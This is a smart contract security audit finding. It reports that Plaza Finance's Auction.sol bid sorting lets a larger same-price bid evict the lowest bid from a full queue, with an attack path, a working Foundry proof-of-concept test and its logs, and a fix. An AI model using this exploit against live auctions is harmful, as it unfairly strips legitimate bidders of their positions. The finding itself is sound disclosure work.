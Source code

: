 Massive White Sloth

Medium

# Auction Sorting Mechanism Allows Higher-Size Bids to Unfairly Replace Lower-Size Bids at Same Price

### Summary

When bid slots are at maximum capacity, a malicious bidder can unfairly remove legitimate lowest bids by placing a larger-size bid at the same price ratio. Even though the bid gets reduced to fit available slot size, it successfully removes the legitimate bid from the queue.

### Root Cause

In Auction.sol - [insertSortedBid()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Auction.sol#L200-L206), the bid sorting mechanism prioritizes larger bid amounts when prices are equal:

```solidity
function insertSortedBid(uint256 newBidIndex) internal {
    // Price comparison logic...
    leftSide = newSellCouponAmount * currentBuyReserveAmount;
    rightSide = currentSellCouponAmount * newBuyReserveAmount;

    // When prices are equal, larger amounts get priority
    if (leftSide == rightSide && newSellCouponAmount > currentSellCouponAmount) {
        // Places new bid before current bid
        break;
    }
}
```

Example: 
Before Auction ends (1000 maxBids slots filled):
The LowestBidder's Bid:
- buyReserveAmount: 1000 wstETH
- sellCouponAmount: 1000000000 USDC
- Average Price: 1000 USDC/wstETH

Malicious End-Period Bid:
- buyReserveAmount: 2000 wstETH
- sellCouponAmount: 2000000000 USDC
- Average Price: 1000 USDC/wstETH (same price!)
Result: Removes the lowest bidder despite same price ratio

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Wait until auction is near end with 1000 maxBids filled
2. Observe current lowest bid price (ex. 1000 wstETH for 1000000000 USDC)
3. Place bid with same price ratio but double size (2000 wstETH for 2000000000 USDC)
4. Due to size priority, removes the lowest bidder from end of queue
5. Gets unfair priority despite offering same price as removed bidder

### Impact

Malicious bidders can unfairly remove the lowest bids from the auction queue by using larger bid sizes at the same price ratio. Although their bid gets reduced to the same slot size(if `maxBids` are full), they successfully gain queue position without having to bid a higher price.

### PoC

Add this test to `Auction.t.sol`
```solidity
    function testReplaceBidOfLowestBidder() public {
    uint256 initialBidAmount = 500;
    uint256 initialSellAmount = 1000000000;

    // Create 999 bids
    for (uint256 i = 0; i < 999; i++) {
      address newBidder = address(uint160(i + 1));
      vm.startPrank(newBidder);
      usdc.mint(newBidder, initialSellAmount);
      usdc.approve(address(auction), initialSellAmount);
      auction.bid(initialBidAmount, initialSellAmount);
      vm.stopPrank();
    }

    // Place a new 1000 bid
    address finalBidder = address(1000);
    uint256 finalBidderBidAmount = 1000;
    uint256 finalBidderSellAmount = 1000000000;

    vm.startPrank(finalBidder);
    usdc.mint(finalBidder, finalBidderSellAmount);
    usdc.approve(address(auction), finalBidderSellAmount);
    auction.bid(finalBidderBidAmount, finalBidderSellAmount);
    vm.stopPrank();

    // Check Initial State
    assertEq(auction.bidCount(), 1000, "bid count 1");
    assertEq(auction.highestBidIndex(), 1, "highest bid index 1");
    assertEq(auction.lowestBidIndex(), 1000, "lowest bid index 1");

    // After finalBidder's bid, let's log the bid queue state
    console.log("After Final Bidder:");
    console.log("Bid Count:", auction.bidCount());
    console.log("Highest Bid Index:", auction.highestBidIndex());
    console.log("Lowest Bid Index:", auction.lowestBidIndex());

    // Log final bidder's bid details
    (address lastBidder, uint256 lastBuyAmount, uint256 lastSellAmount,,,) = auction.bids(1000);
    console.log("Final Bidder Details:");
    console.log("Bidder:", uint256(uint160(lastBidder)));
    console.log("Buy Amount:", lastBuyAmount);
    console.log("Sell Amount:", lastSellAmount);

    // Place the malicious bid
    address maliciousBidder = address(1001);
    uint256 maliciousBidAmount = 2000;
    uint256 maliciousSellAmount = 2000000000; // this will take the final slot even though it had the same price with the lowest bid
    
    vm.startPrank(maliciousBidder);
    usdc.mint(maliciousBidder, maliciousSellAmount);
    usdc.approve(address(auction), maliciousSellAmount);
    auction.bid(maliciousBidAmount, maliciousSellAmount);
    vm.stopPrank();

    // Check updated state
    assertEq(auction.bidCount(), 1000, "bid count ");
    assertEq(auction.highestBidIndex(), 1, "highest bid index ");
    assertEq(auction.lowestBidIndex(), 1001, "lowest bid index ");
    
    // After maliciousBidder's bid, let's log the bid queue state
    console.log("\nAfter Malicious Bid:");
    console.log("Bid Count:", auction.bidCount());
    console.log("Highest Bid Index:", auction.highestBidIndex());
    console.log("Lowest Bid Index:", auction.lowestBidIndex());

    // Log maliciousBidder's bid details
    (address maliciousBidderAddress, uint256 maliciousBuyAmount, uint256 maliciousSellAmounts,,,) = auction.bids(1001);
    console.log("Malicious Bidder Details:");
    console.log("Bidder:", uint256(uint160(maliciousBidderAddress)));
    console.log("Buy Amount:", maliciousBuyAmount);
    console.log("Sell Amount:", maliciousSellAmounts);

    // Check if finalBidder's bid is still existing:
    (address updatelastBidder, uint256 updatelastBuyAmount, uint256 updatelastSellAmount,,,) = auction.bids(1000);
    console.log("\nFinal Bidder Updated Details:");
    console.log("Bidder:", uint256(uint160(updatelastBidder)));
    console.log("Buy Amount:", updatelastBuyAmount);
    console.log("Sell Amount:", updatelastSellAmount);
  } 
```

Result:
```solidity
Logs:
  After Final Bidder:
  Bid Count: 1000
  Highest Bid Index: 1
  Lowest Bid Index: 1000
  Final Bidder Details:
  Bidder: 1000
  Buy Amount: 1000
  Sell Amount: 1000000000
  
After Malicious Bid:
  Bid Count: 1000
  Highest Bid Index: 1
  Lowest Bid Index: 1001
  Malicious Bidder Details:
  Bidder: 1001
  Buy Amount: 1000
  Sell Amount: 1000000000
  
Final Bidder Updated Details:
  Bidder: 0
  Buy Amount: 0
  Sell Amount: 0
```

### Mitigation

Modify sorting to respect FIFO order when prices are equal and handle bid sizes fairly:
```diff
function insertSortedBid(uint256 newBidIndex) internal {
    leftSide = newSellCouponAmount * currentBuyReserveAmount;
    rightSide = currentSellCouponAmount * newBuyReserveAmount;

-    if (leftSide > rightSide || (leftSide == rightSide && newSellCouponAmount > currentSellCouponAmount)) {
+   if (leftSide > rightSide) {  // Only sort by price
        break;
    }
    
}
```